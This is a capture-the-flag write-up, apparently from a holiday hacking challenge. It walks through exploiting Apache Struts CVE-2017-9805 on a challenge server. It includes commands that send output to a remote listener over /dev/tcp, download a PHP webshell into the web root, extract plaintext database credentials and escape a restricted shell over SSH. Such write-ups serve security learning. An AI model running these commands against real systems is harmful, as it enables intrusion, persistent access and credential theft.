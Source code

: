 We'll try downloading a webshell directly to the server then: 

With trial and error and redirecting output through tcp and set a listener on the other side:
```
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/1234"
```
We discover that the l2s server uses /var/www/html as the root directory for l2s. We can dump our webshell there.

```
./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php" -u https://dev.northpolechristmastown.com/orders.xhtml
```
[Now we can peruse around](https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php). An 'ls' helps us immediately discover [GreatBookPage2.pdf](https://l2s.northpolechristmastown.com/GreatBookPage2.pdf). We appear to have issues downloading it so we'll deal with that later.

The default nginx config redirects the dev server to port 8080.

Looking at the process table we find:

```
alabast+   783 14.7  1.5 931068 489948 ?       Sl   03:02  32:04 /opt/jre/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dfile.encoding=UTF-8 -Dnet.sf.ehcache.skipUpdateCheck=true -XX:+UseConcMarkSweepGC -XX:+CMSClassUnloadingEnabled -XX:+UseParNewGC -XX:MaxPermSize=128m -Xms512m -Xmx512m -Djava.endorsed.dirs=/opt/apache-tomcat/endorsed -classpath /opt/apache-tomcat/bin/bootstrap.jar -Dcatalina.base=/opt/apache-tomcat -Dcatalina.home=/opt/apache-tomcat -Djava.io.tmpdir=/opt/apache-tomcat/temp org.apache.catalina.startup.Bootstrap start
```

So lets look at the tomcat server creds. (Need to work out how to find the class file here)
```
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
```

```
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";
```

Now we have credentials. It looks like we can ssh to the server. If we do we get dropped into a restricted shell. Let's try to avoid that.

```
ssh -t alabaster_snowball@dev.northpolechristmastown.com bash
```

[Another helpful article about restricted bash shell.](https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee/)

We can also download GreatBookPage2.pdf (sha1:aa814d1c25455480942cb4106e6cde84be86fb30)

```
scp alabaster_snowball@dev.northpolechristmastown.com:/var/www/html/GreatBookPage2.pdf .
```

ANSWER (Topic): On the Topic of Flying Animals
ANSWER (Password): stream_unhappy_buy_loss
